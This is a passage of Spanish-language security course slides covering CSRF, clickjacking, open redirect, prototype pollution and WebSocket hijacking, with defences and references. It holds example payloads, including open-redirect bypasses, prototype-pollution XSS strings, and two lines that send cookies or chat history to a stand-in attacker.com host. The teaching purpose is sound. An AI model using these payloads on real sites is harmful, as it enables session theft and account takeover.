\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl139_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF}
\small
  \begin{itemize}
  \item CSRF e Ingeniería Social:
    \begin{itemize}
    \item También se puede hacer mediante un mail con un hipervínculo
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl140_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF}
\small
  \begin{itemize}
  \item CSRF con curl:
  \item Si el usuario está autenticado en DVWA y conseguidnos su cookie de sesión, podemos cambiarle su password sin que se entere explotando la vulnerabilidad CSRF mediante la herramienta curl
  \item Para evitar ataques CSRF hay que asegurarse que una acción está realmente siendo llevada a cabo por el usuario en lugar de un tercero (navegador), para ello, hay que asociarlo con algún tipo de identificador único que puede ser verificado después, llamado token.
  \item Vulnerabilidades Web
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl141_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
  \begin{itemize}
  \item Serías capaz de hacer un robo de cuenta de usuario explotando una vulnerabilidad CSRF e inyectándola vía XSS en la aplicación bWAPP y en DVWA
  \item Soluciones
  \end{itemize}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl142_1.jpg}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl142_2.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl142_3.png}
\end{center}
\end{frame}

\begin{frame}{Referencias y práctica --- CSRF}
\footnotesize
  \begin{itemize}
  \item \href{https://portswigger.net/web-security/csrf}{PortSwigger --- CSRF} (labs)
  \item \href{https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html}{OWASP --- CSRF Prevention Cheat Sheet}
  \item \href{https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite}{MDN --- SameSite cookies}
  \end{itemize}
\end{frame}

\section{Clickjacking}

\begin{frame}[allowframebreaks]{Clickjacking}
\end{frame}

\begin{frame}[allowframebreaks]{Clickjacking}
\small
  \begin{itemize}
  \item Este ataque consiste en superponer una capa transparente en la interfaz de una aplicación web.
  \item Esto permite al atacante engañar al usuario, que realiza acciones indeseadas sin percatarse.
  \item La forma de realizar este ataque puede ser parecida a un XSS, podemos inyectar código html o un evento indeseado para el usuario.
  \item En ciertas aplicaciones como las bancarias, este ataque puede ser terriblemente peligroso.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Realiza un ataque clickjacking en la web DVWA}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl149_1.jpg}
\end{center}
\end{frame}

\begin{frame}{Referencias y práctica --- Clickjacking}
\footnotesize
  \begin{itemize}
  \item \href{https://portswigger.net/web-security/clickjacking}{PortSwigger --- Clickjacking} (labs)
  \item \href{https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html}{OWASP --- Clickjacking Defense Cheat Sheet}
  \item \href{https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options}{MDN --- X-Frame-Options y frame-ancestors}
  \end{itemize}
\end{frame}

\section{Open Redirect}

\begin{frame}[allowframebreaks]{Open Redirect --- Fundamentos}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es un Open Redirect?
  \item La app acepta una URL como parámetro y redirige al usuario a ella sin validar
  \item si el destino es legítimo. El atacante usa el dominio de confianza como gancho.
  \item Ejemplo básico
  \item https://banco.com/redirect?url=https://bank0.com/phishing
  \item $\rightarrow$ El servidor responde: 302 Location: https://bank0.com/phishing
  \item $\rightarrow$ La víctima ve 'banco.com' en el link $\rightarrow$ confía y hace clic
  \item Parámetros habituales de redirección
  \item ?url= ?next= ?redirect= ?return= ?goto= ?dest= ?target=
  \item Cabecera Referer en respuestas de logout/login
  \item $\rightarrow$ Buscar con: ffuf -w params.txt -u 'https://victima.com/?FUZZ=https://test.com'
  \item Impacto
  \item Phishing: link parece legítimo (dominio real de confianza)
  \item Robo de tokens OAuth: redirect\_uri puede apuntar al atacante
  \item Encadenamiento con SSRF para redirigir peticiones internas
  \item Herramienta: Oralyzer
  \item pip install oralyzer
  \item oralyzer -u 'https://victima.com/redir?next=FUZZ'
  \item OWASP: owasp.org/www-project-web-security-testing-guide (OTG-CLIENT-004)
  \item Más: linkedin/deepmarketer --- Exploiting Open Redirection
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Open Redirect --- Bypass y encadenamiento con OAuth}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Bypass de validaciones basadas en startswith/contains
  \item \cmd{\# Si la app valida que la URL empiece por el dominio legítimo:}
  \item https://victima.com.attacker.com (subdominio del atacante)
  \item https://victima.com@attacker.com (@ separa user:pass del host)
  \item //attacker.com (protocol-relative URL)
  \item /\textbackslash\{\}attacker.com (backslash normalizado por browsers)
  \item Bypass con codificación
  \item \%2F\%2Fattacker.com (doble slash URL-encoded)
  \item https://attacker\%2Ecom (punto URL-encoded)
  \item https://attacker\textbackslash\{\}.com (backslash confunde parsers)
  \item Account Takeover vía OAuth + Open Redirect
  \item \cmd{\# Si el servidor OAuth valida redirect\_uri como 'startswith':}
  \item GET /oauth/authorize?client\_id=X
  \item \&redirect\_uri=https://victima.com/cb/../../../attacker.com
  \item $\rightarrow$ Path traversal en la URL $\rightarrow$ el authorization code llega al atacante
  \item $\rightarrow$ El atacante canjea el code por access\_token $\rightarrow$ Account Takeover
  \item Encadenamiento con XSS (javascript: protocol)
  \item ?url=javascript:fetch('https://attacker.com/?c='+document.cookie)
  \item $\rightarrow$ Solo en clientes que ejecutan javascript: en location (raro en navegadores modernos)
  \item Severidad: Media sola --- Crítica encadenada con OAuth o XSS
  \item portswigger.net/web-security/oauth (open redirect + OAuth account takeover)
  \item Automatizar la búsqueda: Oralyzer
  \item Script en Python que prueba Open Redirect
  \item fuzzeando el parámetro vulnerable de la URL.
  \item Detecta además CRLF injection.
  \item Instalación
  \item git clone github.com/r0075h3ll/Oralyzer
  \item pip3 install -r requirements.txt
  \item Uso
  \item python3 oralyzer.py -u 'http://site/?url=FUZZ'
  \item python3 oralyzer.py -l urls.txt (lista)
  \item Módulo web.archive.org: recolecta URLs con
  \item parámetros sospechosos (?url= ?next=\dots{}) y las prueba.
  \item github.com/r0075h3ll/Oralyzer
  \end{itemize}
\end{frame}

\begin{frame}{Referencias y práctica --- Open Redirect}
\footnotesize
  \begin{itemize}
  \item \href{https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html}{OWASP --- Unvalidated Redirects Cheat Sheet}
  \item \href{https://portswigger.net/kb/issues/00500100_open-redirection-reflected}{PortSwigger --- Open Redirection}
  \end{itemize}
\end{frame}

\section{Prototype Pollution}

\begin{frame}[allowframebreaks]{Prototype Pollution}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es?
  \item El atacante modifica Object.prototype en JavaScript. Como TODOS
  \item los objetos heredan de él, el cambio afecta a TODA la app.
  \item obj.\_\_proto\_\_.isAdmin = true $\cdot$ \{\textquotedbl{}\_\_proto\_\_\textquotedbl{}:\{\textquotedbl{}isAdmin\textquotedbl{}:true\}\}
  \item Impacto (muy alto)
  \item Escalada de privilegios (inyectar isAdmin:true).
  \item Bypass de validaciones (if(obj.authenticated)).
  \item Cambiar comportamientos internos (getters/setters).
  \item Denial of Service.
  \item Dónde
  \item Client-side (DOM) y server-side (Node.js); encadena a XSS/RCE
  \item según los 'gadgets' disponibles.
  \item PortSwigger Prototype Pollution
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Prototype Pollution --- lado cliente}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Fuentes (sources) en el navegador
  \item ?\_\_proto\_\_[gadget]=payload (desde location.hash/search $\rightarrow$ merge)
  \item URL, JSON.parse y merges recursivos que copian claves del usuario a Object.prototype.
  \item XSS en el DOM por pollution
  \item ?\_\_proto\_\_[hitCallback]=alert(document.cookie)
  \item Se contamina un gadget (config, callback, src) que un script del cliente usa sin comprobar $\rightarrow$ XSS DOM.
  \item Vectores alternativos y bypass de sanitización
  \item constructor[prototype][x] $\cdot$ \_\_pro\_\_proto\_\_to\_\_ (no recursivo)
  \item Si bloquean \_\_proto\_\_, usar constructor.prototype; si la sanitización no es recursiva, se reconstruye (como path traversal).
  \item DOM Invader (Burp) automatiza sources/sinks/gadgets $\cdot$ hack4u.io
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Prototype Pollution --- libs de terceros}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Librerías vulnerables clásicas
  \item lodash \_.merge/\_.set $\cdot$ jQuery \$.extend(true,\dots{}) $\cdot$ minimist, deep-merge
  \item Funciones de merge/clone recursivas que no filtran \_\_proto\_\_ $\rightarrow$ el gadget está en la propia librería.
  \item Encontrar el gadget (source $\rightarrow$ sink)
  \item Contaminar una propiedad y ver si la librería la lee para construir HTML, opciones o comandos.
  \item Ejemplo (client-side)
  \item \$.extend(true, \{\}, JSON.parse(location.hash.slice(1)))
  \item Un \$.extend profundo con datos de la URL $\rightarrow$ pollution directa.
  \item Defensa: actualizar la librería, Object.create(null) o Map; congelar Object.prototype.
  \item Técnicas del curso hack4u.io
  \end{itemize}
\end{frame}

\begin{frame}{Referencias y práctica --- Prototype Pollution}
\footnotesize
  \begin{itemize}
  \item \href{https://portswigger.net/web-security/prototype-pollution}{PortSwigger --- Prototype Pollution} (labs)
  \item \href{https://github.com/BlackFan/client-side-prototype-pollution}{BlackFan --- Client-side Prototype Pollution (gadgets)}
  \end{itemize}
\end{frame}

\section{WebSockets}

\begin{frame}[allowframebreaks]{WebSockets --- Pentesting}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Fundamentos y handshake
  \item CSWSH (CSRF en WebSockets)
  \item Interceptación y manipulación
  \item Otras vulnerabilidades y defensa
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{WebSockets --- Pentesting y vulnerabilidades}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué son los WebSockets?
  \item Protocolo full-duplex sobre TCP: mantiene una conexión persistente
  \item entre cliente y servidor. Usado en chats, dashboards, notificaciones, juegos.
  \item Handshake de apertura WebSocket
  \item \cmd{\# El cliente envía (HTTP Upgrade):}
  \item GET /chat HTTP/1.1
  \item Upgrade: websocket
  \item Connection: Upgrade
  \item Sec-WebSocket-Key: BASE64\_RANDOM==
  \item \cmd{\# El servidor confirma: 101 Switching Protocols}
  \item \cmd{\# A partir de aquí: comunicación binaria bidireccional}
  \item Interceptar WebSockets con Burp Suite
  \item Proxy $\rightarrow$ WebSockets History: muestra todos los mensajes WS enviados/recibidos
  \item Clic derecho en un mensaje $\rightarrow$ Send to Repeater
  \item Modificar y reenviar mensajes WS manualmente en tiempo real
  \item Vulnerabilidades comunes en WebSockets
  \item Inyección (XSS, SQLi, CMDi) en mensajes WS sin sanitizar
  \item Falta de autenticación en el handshake (cualquiera puede conectarse)
  \item Ausencia de cifrado (ws:// en vez de wss:// $\rightarrow$ tráfico en claro)
  \item Cross-Site WebSocket Hijacking (CSWSH) $\rightarrow$ ver siguiente diapositiva
  \item portswigger.net/web-security/websockets
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{WebSockets --- Cross-Site WebSocket Hijacking (CSWSH)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es CSWSH?
  \item Equivalente a CSRF para WebSockets: el atacante abre una conexión WS
  \item en nombre de la víctima desde un dominio malicioso.
  \item Condiciones para que sea explotable
  \item 1. El handshake NO incluye un token CSRF
  \item 2. El servidor autentica usando solo las cookies de sesión
  \item 3. El servidor no valida el header Origin del handshake
  \item Payload CSWSH (página del atacante)
  \item \cmd{\# HTML en el servidor del atacante:}
  \item \textless{}script\textgreater{}
  \item var ws = new WebSocket('wss://victima.com/chat');
  \item ws.onopen = () =\textgreater{} ws.send(JSON.stringify(\{action:'get\_history'\}));
  \item ws.onmessage = e =\textgreater{} fetch('https://attacker.com/?d='+btoa(e.data));
  \item \textless{}/script\textgreater{}
  \item $\rightarrow$ La víctima visita la página del atacante
  \item $\rightarrow$ Su navegador abre una WS connection autenticada con las cookies de victima.com
  \item $\rightarrow$ El historial de chat se exfiltra al servidor del atacante
  \item Medidas de protección
  \item Validar el header Origin en el handshake del servidor WS
  \item Incluir un token CSRF como parámetro en la URL del handshake
  \item Usar tokens de sesión en el primer mensaje WS, no solo cookies
  \item portswigger.net/web-security/websockets/cross-site-websocket-hijacking
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{WebSockets --- Interceptación y manipulación}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Interceptar el tráfico WS
  \item Burp: pestaña 'WebSockets history' $\rightarrow$ interceptar y editar
  \item mensajes en tiempo real (Repeater para WS).
  \item Probar downgrade: ¿acepta ws:// (texto plano) en vez de wss://?
  \item Manipular mensajes = inyectar
  \item Cada mensaje es entrada del usuario $\rightarrow$ mismas inyecciones:
